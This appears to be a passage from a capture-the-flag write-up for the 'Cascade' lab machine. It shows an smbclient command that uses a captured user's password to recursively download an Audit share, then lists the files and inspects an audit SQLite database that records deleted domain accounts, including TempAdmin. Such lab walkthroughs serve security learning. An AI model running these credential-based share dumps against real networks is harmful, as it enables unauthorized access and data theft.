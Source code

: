 `smbclient --user 's.smith' --password='sT333ve2' //10.10.10.182/Audit$ -c 'prompt OFF;recurse ON;lcd /home/nabla/Audit;mget *'`:
```
getting file \CascAudit.exe of size 13312 as CascAudit.exe (12.7 KiloBytes/sec) (average 12.7 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (14.6 KiloBytes/sec) (average 13.6 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.1 KiloBytes/sec) (average 9.4 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (217.8 KiloBytes/sec) (average 88.4 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (44.1 KiloBytes/sec) (average 66.7 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as DB/Audit.db (30.7 KiloBytes/sec) (average 63.6 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as x64/SQLite.Interop.dll (401.7 KiloBytes/sec) (average 165.7 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as x86/SQLite.Interop.dll (242.8 KiloBytes/sec) (average 186.9 KiloBytes/sec)
```

`tree ./Audit`:
```
./Audit
├── CascAudit.exe🔍
├── CascCrypto.dll🔍
├── DB
│   └── Audit.db
├── RunAudit.bat🔍
├── System.Data.SQLite.EF6.dll
├── System.Data.SQLite.dll
├── x64
│   └── SQLite.Interop.dll
└── x86
    └── SQLite.Interop.dll

4 directories, 8 files
```

`cat ./Audit/RunAudit.bat`:
```                     
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

`file ./Audit/DB/Audit.db`:
```
./Audit/DB/Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60
```

`sqlite3 ./Audit/DB/Audit.db`:
```
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> SELECT * FROM DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin🔍
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
```